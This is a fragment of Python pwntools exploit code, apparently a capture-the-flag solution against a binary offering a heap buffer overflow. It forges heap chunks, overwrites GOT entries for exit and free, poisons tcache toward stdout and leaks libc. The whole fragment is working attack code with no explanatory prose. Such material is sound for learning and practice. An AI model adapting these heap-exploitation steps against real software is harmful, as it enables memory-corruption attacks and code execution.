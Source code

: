 ```python
    sh.send('A')

sh.recvuntil('heap buffer overflow primitive: ')

gm_addr = 0x407118

fire_addr = 0x406d20
getNameBuffer_addr = 0x406D30
getTag_addr = 0x406D40
addStorage_addr = 0x406D90
start_addr = 0x400018
setName_addr = 0x406D28

exp = ''
exp+= flat(getTag_addr, 0, 0, 0, 0, 0)      # padding Object1

#exit@GOT = read@PLT to bypass vtable check
exp+= flat(0, 0x41, addStorage_addr, 1, 0, 0, 0, gm_addr) 
exp+= flat(0, 0x41, addStorage_addr, 2, 0, 0, 0, gm_addr) 
exp+= flat(0, 0x21, elf.got['exit'], 0)  
exp+= flat(0, 0x41, addStorage_addr, 3, 0, 0, elf.got['exit'], gm_addr)
exp+= flat(0, 0x21, 0, 0)
exp+= flat(0, 0x31, elf.got['free'], 4, 0, 0, elf.got['exit'], gm_addr) # 0x41=>0x31
exp+= flat(0, 0x21, 0, 0)
exp+= flat(0, 0x41, start_addr, 4, 0, 0, elf.got['exit'], gm_addr)

exp = exp.ljust(0x310, '\x00')
exp+= flat(0, 0x71)
exp = exp.ljust(0x400, '\x00')
sh.send(exp)

#tcache[0x30]->chunk->&stdout-0x20
sh.send(p64(0x4070f0-0x20))


# =================round 2, leak libc addr===================
sh.recvuntil('str: ')   #str0
sh.send('A'*0x20)
  
sh.sendline('') #str1

sh.recvuntil('str: ')
sh.send('A'*0x20)  #str2
sh.recvuntil('A'*0x20)
libc.address = u64(sh.recvuntil('\nstr: ', drop=True).ljust(8, '\x00'))-0x1ed6a0 
Log('libc.address')  

for i in range(6):  #str3~str8
    sh.sendline('')

sh.recvuntil('heap buffer overflow primitive: ')

exp = ''
exp+= flat(getTag_addr, 0, 0, 0, 0, 0)      # padding Object1
exp+= flat(0, 0x31, elf.got['free'], 1, 0, 0, elf.got['exit'], gm_addr)
exp+= flat(0, 0x31, elf.got['free'], 2, 0, 0, elf.got['exit'], gm_addr)
exp+= flat(0, 0x21, 0, 0)
exp+= flat(0, 0x41, start_addr, 4, 0, 0, elf.got['exit'], gm_addr)
exp = exp.ljust(0x3f0, '\x00')
exp+= flat(0, 0xe571)   # top chunk's size
sh.send(exp)

sh.sendline('')
```